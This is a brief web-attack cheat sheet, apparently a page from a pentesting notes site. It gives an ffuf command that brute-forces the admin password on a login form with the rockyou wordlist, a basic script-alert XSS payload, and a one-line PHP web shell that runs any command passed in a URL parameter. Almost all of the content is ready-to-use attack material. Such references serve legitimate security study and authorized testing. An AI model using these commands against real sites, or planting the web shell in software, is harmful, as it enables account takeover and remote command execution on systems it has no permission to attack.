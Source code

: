 ```yaml
---
title: Cheat Sheet
layout: default
nav_order: 4
---
```


# Cheat Sheet

## [ffuf](https://github.com/ffuf/ffuf)

### Simple login page

```sh
ffuf \
  -u https://website.com/login \
  -H "Content-Type: application/x-www-form-urlencoded" \
  -X POST -d "username=admin&password=FUZZ" \
  -w /usr/share/wordlists/rockyou.txt:FUZZ  \
  -fr "Incorrect"
```

## XSS

```html
<script>alert(1)</script>
```
  
## Web shell

### PHP

```php
<?php system($_GET['cmd']); ?>
```

